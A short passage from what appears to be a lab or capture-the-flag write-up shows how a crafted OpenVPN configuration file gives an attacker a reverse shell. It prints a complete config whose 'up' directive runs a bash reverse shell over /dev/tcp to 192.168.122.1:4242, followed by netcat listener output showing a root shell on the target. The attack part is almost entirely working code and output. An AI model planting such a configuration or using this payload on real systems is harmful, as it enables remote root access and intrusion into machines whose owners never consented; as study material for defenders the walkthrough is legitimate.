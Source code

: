 <figure><img src="../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

By setting up a listener on the victim, and then exploiting the VPN configuration, we are able to catch a reverse shell. [https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

VPN configuration:

```
remote 192.168.122.1
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
nobind
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/4242 0<&1 2>&1&'"
```

Reverse shell:

```
dave@ubuntu:~/Desktop$ nc -nvlp 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from [192.168.122.4] port 4242 [tcp/*] accepted (family 2, sport 45186)
bash: cannot set terminal process group (1106): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html#
```
